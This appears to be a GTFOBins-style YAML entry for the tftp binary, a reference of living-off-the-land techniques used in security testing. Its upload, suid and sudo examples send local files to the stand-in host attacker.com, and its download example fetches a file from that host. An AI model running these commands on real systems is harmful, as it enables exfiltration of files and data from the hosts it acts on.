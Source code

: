 functions:
  file-upload:
    - description: Send local file to a TFTP server.
      code: |
        RHOST=attacker.com
        tftp $RHOST
        put file_to_send
  file-download:
    - description: Fetch a remote file from a TFTP server.
      code: |
        RHOST=attacker.com
        tftp $RHOST
        get file_to_get
  suid:
    - description: Send local file to a TFTP server.
      code: |
        RHOST=attacker.com
        ./tftp $RHOST
        put file_to_send
  sudo:
    - description: Send local file to a TFTP server.
      code: |
        RHOST=attacker.com
        sudo tftp $RHOST
        put file_to_send
---
